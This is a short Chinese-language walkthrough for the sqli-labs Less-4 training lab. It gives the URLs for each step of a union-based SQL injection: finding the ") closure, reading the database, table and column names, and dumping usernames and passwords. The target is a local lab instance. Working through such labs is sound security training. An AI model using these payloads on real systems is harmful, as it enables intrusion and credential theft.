

# Less - 04

---

# 通关教程

---

## 1、判断注入

---

```http
http://192.168.225.132/sqli-labs/Less-4/?id=1 #回显正常
http://192.168.225.132/sqli-labs/Less-4/?id=1' #回显正常
http://192.168.225.132/sqli-labs/Less-4/?id=1" #回显错误
http://192.168.225.132/sqli-labs/Less-4/?id=1")--+ #回显正常
```

​​

​​

---

## 2、查看当前的数据库

---

```http
http://192.168.225.132/sqli-labs/Less-4/?id=1") union select 1,2,database()--+
```

​​

---

## 3、查看当前数据表

---

```http
http://192.168.225.132/sqli-labs/Less-4/?id=0")  union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+
```

​​

---

## 4、查看字段名

---

```http
http://192.168.225.132/sqli-labs/Less-4/?id=0") union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')--+
```

​​

---

## 5、查看字段值

---

```http
http://192.168.225.132/sqli-labs/Less-4/?id=0") union select 1,2,(select group_concat(username,password) from security.users)--+
```

​​

‍
